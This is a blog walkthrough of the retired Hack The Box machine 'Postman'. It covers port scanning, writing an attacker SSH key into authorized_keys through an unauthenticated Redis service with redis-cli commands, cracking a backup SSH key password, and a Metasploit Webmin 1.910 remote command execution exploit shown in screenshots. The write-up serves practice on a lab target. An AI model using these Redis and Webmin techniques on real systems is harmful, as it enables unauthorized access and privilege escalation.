 ```yaml
---
layout: post
title: "Postman: Hack The Box Walkthrough"
date: 2020-03-14 16:50:38 +0000
last_modified_at: 2020-03-14 16:50:38 +0000
category: Walkthrough
tags: ["Hack The Box", Postman, retired, Linux, Easy]
comments: true
image:
  feature: postman-htb-walkthrough.jpg
  credit: ninita_7 / Pixabay
  creditlink: https://pixabay.com/photos/post-letter-mail-box-letter-boxes-2828146/
---
```


This post documents the complete walkthrough of Postman, a retired vulnerable [VM][1] created by [TheCyberGeek][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Postman is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let\'s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.160 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-11-03 13:51:36 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160
```

Interesting list of open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,6379,10000 -A --reason -oN nmap.txt 10.10.10.160
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   syn-ack ttl 63 Redis key-value store 4.0.9
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Hmm. Other than the usual `ssh` and `http` services, we also have Redis and MiniServ running. Anyhow, this is what the `http` site looks like.

<a class="image-popup">
![1816123a.png](/assets/images/posts/postman-htb-walkthrough/1816123a.png)
</a>

### Redis SSH Backdoor

Anyway since the Redis service is available, let's check and see what we can glean from there.

<a class="image-popup">
![28521bc8.png](/assets/images/posts/postman-htb-walkthrough/28521bc8.png)
</a>

Interesting. The creator seems to be suggesting that there\'s a `redis` SSH account and the way to get a foothold is to dump a SSH public key we control to `authorized_keys`.

That should be easy.

1. `ssh-keygen -f redis`
2. `echo -ne "\n\n" > public; cat redis.pub >> public`
3. `redis-cli -h 10.10.10.160 SLAVEOF NO ONE`
3. `cat public | redis-cli -h 10.10.10.160 -x set pub`
4. `redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys`
5. `redis-cli -h 10.10.10.160 SAVE`

I've incorporated the above steps into a script to save a bit of time because many HTB players are chasing after a Metasploit exploit that somehow didn't work as expected.

<a class="image-popup">
![b84c9e83.png](/assets/images/posts/postman-htb-walkthrough/b84c9e83.png)
</a>

### Matt's Backup SSH Key

During enumeration of `redis`'s account, I noticed that there is another account with UID 1000 (Matt). That would mean that the file `user.txt` is in Matt's home directory.

<a class="image-popup">
![6c8021b8.png](/assets/images/posts/postman-htb-walkthrough/6c8021b8.png)
</a>

Look what we found!

<a class="image-popup">
![397bd523.png](/assets/images/posts/postman-htb-walkthrough/397bd523.png)
</a>

Matt is careless to leave a backup of his password-protected SSH private key around.

<a class="image-popup">
![52c92cfb.png](/assets/images/posts/postman-htb-walkthrough/52c92cfb.png)
</a>

Something else is up. Notice that Matt cannot login via SSH.

<a class="image-popup">
![cb6018ab.png](/assets/images/posts/postman-htb-walkthrough/cb6018ab.png)
</a>

What good is a password-protected private key if we can't login via SSH? Well, we can crack the key's password and see what it brings us.

<a class="image-popup">
![657cca71.png](/assets/images/posts/postman-htb-walkthrough/657cca71.png)
</a>

And guess what. We can `su` as Matt with that password.

<a class="image-popup">
![b73a8c9e.png](/assets/images/posts/postman-htb-walkthrough/b73a8c9e.png)
</a>

There you have it. The file `user.txt` is indeed in Matt's home directory.

<a class="image-popup">
![5d53b140.png](/assets/images/posts/postman-htb-walkthrough/5d53b140.png)
</a>

## Privilege Escalation

During enumeration of Matt's account, I noticed the presence of a file in `/etc/webmin/Matt.acl`, which sort of gave me an idea—maybe Matt is able to log in to the Webmin using the same credential (`Matt:computer2008`)?

<a class="image-popup">
![5eea3d2f.png](/assets/images/posts/postman-htb-walkthrough/5eea3d2f.png)
</a>

No shit.

### Webmin 1.910 - 'Package Updates' Remote Command Execution

Long story short. As much as I wanted to avoid Metasploit, this is one exploit that executes better with it.

<a class="image-popup">
![a5c6060b.png](/assets/images/posts/postman-htb-walkthrough/a5c6060b.png)
</a>

This is way too easy.

<a class="image-popup">
![9dfc4cec.png](/assets/images/posts/postman-htb-walkthrough/9dfc4cec.png)
</a>

### Getting `root.txt`

<a class="image-popup">
![f1552c46.png](/assets/images/posts/postman-htb-walkthrough/f1552c46.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/215
[2]: https://www.hackthebox.eu/home/users/profile/114053
[3]: https://www.hackthebox.eu/

